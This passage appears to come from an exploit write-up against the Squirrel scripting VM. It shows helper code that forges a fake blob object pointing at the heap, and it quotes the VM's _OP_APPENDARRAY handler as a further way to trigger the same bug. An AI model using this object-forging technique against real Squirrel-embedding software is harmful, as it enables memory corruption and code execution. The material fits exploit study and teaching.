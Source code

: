 And finally the `SQBlob`:

```
create_blob <- function(blb, base_addr, size, offset)
{
	p64(blb, 0)          // _vptr.SQStream
	p64(blb, size)       // _size
	p64(blb, size)       // _allocated
	p64(blb, offset)     // _ptr
	p64(blb, base_addr)  // _buf
	p64(blb, 1)          // _owns
}
```

Combining these three function we can create a (hopefully) functioning `blob`:

```
create_stackobj(blob_1, 0x0a008000, heap_base + BLOB1_CONTENT_OFFSET + 16)
create_instance(blob_1, blob_cls_addr, heap_base + BLOB1_CONTENT_OFFSET + 120)
create_blob(blob_1, heap_base, 0x42000, 0)
```

So now all that's left is to write our own assembler to assemble the code which
will load from crafted offsets... You know what? I'm really lazy and I mean
_really_ lazy, fat chance I'm writing an assembler for this.

So what are our options then? We _do_ have a compiler, so let's just adjust the
offsets in there... But how are we going to locate the bytes I need to change?
A disassembler would help... **NO.**

Checking the source code again we can see an instruction which our current
exploit does not yet use implement the same bugged behaviour: 
(`squirrel/sqvm.cpp`)

```c
            case _OP_APPENDARRAY:
                {
                    SQObject val;
                    val._unVal.raw = 0;
                switch(arg2) {
                case AAT_STACK:
                    val = STK(arg1); break;
                case AAT_LITERAL:
                    val = ci->_literals[arg1]; break;
                case AAT_INT:
                    val._type = OT_INTEGER;
#ifndef _SQ64
                    val._unVal.nInteger = (SQInteger)arg1;
#else
                    val._unVal.nInteger = (SQInteger)((SQInt32)arg1);
#endif
                    break;
                case AAT_FLOAT:
                    val._type = OT_FLOAT;
                    val._unVal.fFloat = *((const SQFloat *)&arg1);
                    break;
                case AAT_BOOL:
                    val._type = OT_BOOL;
                    val._unVal.nInteger = arg1;
                    break;
                default: val._type = OT_INTEGER; assert(0); break;

                }
                _array(STK(arg0))->Append(val); continue;
                }
```
